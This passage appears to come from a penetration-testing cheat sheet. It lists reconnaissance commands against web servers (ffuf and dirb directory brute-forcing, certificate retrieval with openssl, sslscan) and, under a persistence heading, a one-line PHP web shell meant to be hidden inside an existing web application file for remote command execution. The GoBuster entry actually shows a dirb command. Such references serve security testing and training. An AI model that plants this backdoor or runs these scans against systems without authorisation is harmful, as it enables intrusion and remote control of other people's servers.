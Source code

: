 
*   **Tool:** \[\[Ffuf]]

    ```bash
    ffuf -w /path/to/wordlist -u https://<target_domain>/FUZZ
    ```
* **Description:** Brute-forces directories and files on the web server to discover hidden resources.

\


*   **Tool:** \[\[GoBuster]]

    ```bash
    dirb http://<target_ip>/
    ```
* **Description:** Brute-forces directories and files on the web server to discover hidden resources.

#### Web Scanning

* **Tool:** \[\[Burp Suite]]
* **Description:** Perform in-depth scans using Burp Suite to potentially identify vulnerabilities and sensitive data.

#### Certificate Information Gathering

*   **Tool:** \[\[OpenSSL]]

    ```bash
    openssl s_client -connect <target_ip>:443 -showcerts
    ```
* **Description:** Retrieves and displays the server’s certificate chain, useful for identifying the certificate authority and the strength of the encryption.

#### SSL/TLS Version Scanning

*   **Tool:** \[\[SSLScan]], \[\[OpenSSL]]

    ```bash
    sslscan --no-failed <target_ip>:443
    ```
* **Description:** Identifies the specific SSL/TLS versions supported by the target HTTPS server.

### Persistence

#### Backdoor in Web Application

*   **Tool:** \[\[Custom Scripts]]

    ```php
    <?php echo shell_exec($_GET['cmd']); ?>
    ```
* **Description:** Embeds a backdoor into an existing web application file, allowing remote command execution.
